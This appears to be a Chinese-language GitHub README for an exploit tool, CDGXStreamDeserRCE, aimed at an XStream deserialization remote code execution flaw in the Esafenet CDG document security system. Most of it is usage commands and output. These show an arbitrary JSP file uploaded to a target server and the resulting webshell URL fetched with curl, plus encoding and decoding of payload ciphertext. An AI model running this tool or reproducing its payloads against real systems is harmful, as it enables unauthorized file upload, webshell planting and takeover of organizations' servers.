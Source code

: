 # CDGXStreamDeserRCE

> 亿赛通电子文档安全管理系统（简称：CDG）是一款电子文档安全防护软件，该系统利用驱动层透明加密技术，通过对电子文档的加密保护，防止内部员工泄密和外部人员非法窃取企业核心重要数据资产。亿赛通电子文档安全管理系统存在XStream反序列化远程代码执行漏洞，攻击者可利用该漏洞对服务器上传任意文件，进而控制服务器权限。


## 使用

帮助信息

```bash
$ java -jar CDGXStreamDeserRCE.jar   
亿赛通电子文档安全管理系统XStream反序列化漏洞任意文件上传利用

usage: Options
 -d,--decode <arg>         密文解码
 -e,--encode <arg>         加密XML反序列化payload
 -h,--help                 打印帮助信息
 -p,--proxy <arg>          代理地址
 -t,--target <arg>         目标URL
 -uf,--upload-file <arg>    上传文件的本地路径
```

文件上传利用

```bash
$ cat test1.jsp
<%
out.println("e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43");
%>
$ java -jar CDGXStreamDeserRCE.jar -p http://127.0.0.1:8080 -uf test1.jsp -t https://192.168.31.190:8443
[+] Exploit Successed
[+] WebShell: https://192.168.31.190:8443/CDGServer3/test1.jsp
$ curl -k https://192.168.31.190:8443/CDGServer3/test1.jsp
e165421110ba030e165421110ba03099a1c0393373c5b4399a1c0393373c5b43
```

密文解码

```bash
$ java -jar CDGXStreamDeserRCE.jar -d FEPCCCLCENHIPOAFPAPDDFCGEAPNMDBMOJPMJAKKNPHOKIKIDCBPHEGKLDGNHCBDEIMODEKMKPFBAIMMNLOJJKMIICLAPJAAFGNGAKFBMPKPJMOIKODEJJMHJCCHKBMFMMFDLOMDPABOJCEAPOFDCPMKGDHFNBBIMCIPAMMIIANFPAJHFAABLLLANNIDAGNKOHONJGFGBKHFDMCLJIMICBHBJEIAAIMACN
[+] Decode Successed:
<?xml version='1.0' encoding="gb2312"?>
<SystemReturn>
  <returnMessage>Error1200</returnMessage>
</SystemReturn>
```

明文编码，读取文件内容进行编码或直接对字符串进行编码

```bash
$ java -jar CDGXStreamDeserRCE.jar -e payload.xml

```
```bash
$ java -jar CDGXStreamDeserRCE.jar -e "C:\Program Files (x86)\ESAFENET\CDocGuard Server\tomcat64\webapps\CDGServer3"
BCBILAKIDOOOCGKJDBBFOCGJFGFJPNJALCHEBLGLBFAMKDDLPBCFFJCJHOPGLEACMIOHIFJAGCBPOMIKLMGBAGCNBGEGNKGALLCGLOJNJBHCLMNNGHHJJNAAKPMEDFJDGCEMDADGDCEFFCGEGNFLGHCH
```

## 参考

- https://github.com/woodpecker-framework/ysoserial-for-woodpecker
